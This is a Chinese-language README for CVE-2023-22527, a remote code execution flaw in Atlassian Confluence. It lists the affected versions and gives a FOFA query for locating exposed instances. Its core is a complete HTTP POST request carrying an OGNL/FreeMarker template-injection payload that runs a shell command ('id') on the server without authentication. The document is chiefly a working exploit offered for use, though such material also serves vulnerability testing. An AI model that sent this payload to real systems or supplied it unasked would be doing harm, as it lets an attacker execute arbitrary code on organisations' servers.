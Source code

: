# CVE-2023-22527

> **Create by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Atlassian Confluence远程代码执行漏洞

## 0x01 漏洞概述

Atlassian Confluence是一款由Atlassian开发的企业团队协作和知识管理软件，提供了一个集中化的平台，用于创建、组织和共享团队的文档、知识库、项目计划和协作内容。Atlassian Confluence Data Center and Server存在安全漏洞，该漏洞源于存在模板注入漏洞，允许未经身份验证的攻击者在受影响的实例上实现远程代码执行。

## 0x02 漏洞影响版本

```
8.0.x，8.1.x，8.2.x，8.3.x，8.4.x
8.5.0 ≤ version ≤ 8.5.3
```

## 0x03 FOFA语法

```
app="Atlassian-Confluence"
```

## 0x04 漏洞复现

![Untitled](image/Untitled.png)

```
POST /template/aui/text-inline.vm HTTP/1.1
Host: x.x.x.x
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 285

label=\u0027%2b#request\u005b\u0027.KEY_velocity.struts2.context\u0027\u005d.internalGet(\u0027ognl\u0027).findValue(#parameters.x,{})%2b\u0027&x=@org.apache.struts2.ServletActionContext@getResponse().setHeader('X-Cmd-Response',(new freemarker.template.utility.Execute()).exec({"id"}))
```

![Untitled](image/Untitled%201.png)